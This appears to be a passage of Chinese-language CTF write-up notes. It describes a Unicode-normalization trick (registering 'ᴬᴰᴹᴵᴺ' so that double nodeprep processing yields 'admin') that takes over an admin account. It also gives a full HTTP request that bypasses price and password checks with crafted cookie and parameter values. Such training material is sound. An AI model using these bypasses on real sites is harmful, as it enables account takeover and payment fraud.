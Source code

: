 注册用户ᴬᴰᴹᴵᴺ
登录用户ᴀdmin，变成Admin
修改密码Admin，更改了admin的密码

注册一个账户ᴬᴰᴹᴵᴺ，注册时nodeprep.prepare()处理一遍得到ADMIN，然后修改密码时nodeprep.prepare()会进行第二次处理，得到admin即可修改admin账户密码


解法二: flask session伪造 以后再研究吧
**Resource**
https://www.anquanke.com/post/id/164086#h2-5


## 极客大挑战-2019-BuyFlag

```
POST /pay.php HTTP/1.1
Host: cf9c7115-396b-4aea-b92a-f56e2808f755.node3.buuoj.cn
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.82 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://cf9c7115-396b-4aea-b92a-f56e2808f755.node3.buuoj.cn/
Accept-Encoding: gzip, deflate
Accept-Language: zh,en-US;q=0.9,en;q=0.8,zh-CN;q=0.7
Cookie: UM_distinctid=178e3bcc14b20-0818dc9f78314e-5771133-190140-178e3bcc14cc71; user=1
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 23

password=404a&money=1e9
```

1. user=1
2. password=404
3. money=1e9

## BJDCTF2020-Easy-MD5

burpsuite抓包发现相应包有hint

![](./img/md51.png)
